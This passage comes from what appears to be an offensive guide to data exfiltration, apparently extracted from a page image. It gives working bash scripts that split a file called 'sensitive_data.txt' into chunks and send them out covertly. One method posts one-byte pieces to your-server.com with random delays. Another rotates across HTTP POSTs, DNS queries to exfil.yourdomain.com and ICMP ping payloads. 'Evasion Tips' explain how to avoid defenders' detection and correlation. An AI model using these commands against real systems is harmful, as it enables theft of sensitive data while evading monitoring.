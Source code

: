 - **Fragmented Micro-Packets**: Split data into tiny fragments sent over long periods.
  - **Example (Micro-Packet Exfiltration)**:
    ```bash
    # Split file into 1-byte chunks
    split -b 1 sensitive_data.txt micro_
    # Send each byte with long delays
    for chunk in micro_*; do
      curl -s -X POST -d @$chunk https://your-server.com/receiver.php
      sleep $(( RANDOM % 60 + 30 ))  # Random 30-90 second delay
    done
    ```
  - **Evasion Tip**: Extremely stealthy but requires patience. Best for situations where time isn't critical.

## 7. Multi-Channel Exfiltration

Using multiple channels simultaneously increases resilience and can reduce detection.

- **Channel Rotation**: Rotate between different exfiltration methods.
  - **Example (Simple Channel Rotation)**:
    ```bash
    # Split data into chunks
    split -n 3 sensitive_data.txt chunk_
    
    # Send chunk 1 via HTTP
    curl -X POST -d @chunk_aa https://your-server.com/http-receiver.php
    
    # Send chunk 2 via DNS
    cat chunk_ab | base64 | tr -d '\n' | fold -w 30 | while read chunk; do
      dig $chunk.exfil.yourdomain.com
      sleep 2
    done
    
    # Send chunk 3 via ICMP
    ping -c 1 -p $(xxd -p chunk_ac | tr -d '\n') your-server.com
    ```
  - **Evasion Tip**: Distributing data across multiple channels makes correlation difficult for defenders. Use different timing patterns for each channel.

## 8. Data Minimization and Preparation

Properly preparing data before exfiltration significantly reduces detection risk.
